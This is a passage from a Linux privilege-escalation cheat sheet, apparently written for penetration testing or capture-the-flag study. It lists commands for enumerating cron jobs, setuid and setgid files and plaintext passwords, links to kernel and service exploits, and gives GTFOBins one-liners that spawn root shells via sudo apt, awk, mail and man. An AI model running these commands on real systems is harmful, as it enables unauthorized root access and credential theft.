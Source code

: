 
##### What jobs are scheduled?

* `crontab -l`
* `ls -alh /var/spool/cron`
* `cat /etc/cron*`


##### Are there any plaintext passwords?

* `grep -rnw "pass" /var/www`


#### Vulnerabilities

* Kernel Vulnerabilities
* Service Vulnerabilities


##### Kernel Vulnerabilities

* DirtyCoW

Note:
https://github.com/SecWiki/linux-kernel-exploits


##### Service Vulnerabilities

* Snapd/Dirty Sock (Ubuntu)
* Apport (Ubuntu/Fedora)

Note:
* https://www.exploit-db.com/exploits/46361
* https://www.exploit-db.com/exploits/36746


#### Misconfigurations

* Host-based Misconfigurations
* Service Misconfigurations


##### Host-based Misconfigurations

* Setuid
 - `find / -perm -u=s -type f 2>/dev/null`
* Setgid
 - `find / -perm -g=s -type f 2>/dev/null`
* GTFOBins
* Scheduled Tasks


##### GTFOBins

* apt
 - `sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh`
* awk
 - `awk 'BEGIN {system("/bin/sh")}'`
* mail
 - `sudo mail --exec='!/bin/sh'`
* man
 - `sudo man man`
 - `!/bin/sh`
